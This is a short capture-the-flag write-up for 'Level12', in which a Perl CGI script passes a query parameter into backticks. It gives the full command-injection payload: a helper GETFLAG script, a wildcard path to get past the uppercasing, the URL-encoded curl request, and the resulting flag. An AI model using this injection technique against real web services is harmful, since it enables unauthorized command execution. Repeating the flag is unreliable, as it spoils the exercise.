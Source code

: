 # Level12

## Context
We found `level12.pl` perl executable file in our home.

We can use it this way : `curl localhost:4646/level12.pl/?x=text`

## Resolution
 * The file get's our parameter X, keeps the part before the first whitespace and put everything in uppercase, which is then passed inside this line:
 ```
   @output = `egrep "^$xx" /tmp/xd 2>&1`;
 ```

we can abuse the backticks
 * Let's first create an uppercase file `GETFLAG` in `/var/crash/` whith execute rights
 ```sh
echo "getflag > /var/crash/level12_output.txt" > GETFLAG
chmod +x GETFLAG
 ```
 * we want to execute: `curl localhost:4646/level12.pl?x=\`/\*/\*/getflag\``, but it needs to be encoded, we can use this site : https://meyerweb.com/eric/tools/dencoder/
 * which gives us: `curl localhost:4646/level12.pl?x=%60%2F*%2F*%2Fgetflag%60`
 * If we `cat level12_output.txt` we get the flag: `g1qKMiRpXf53AWhDaU7FEkczr`
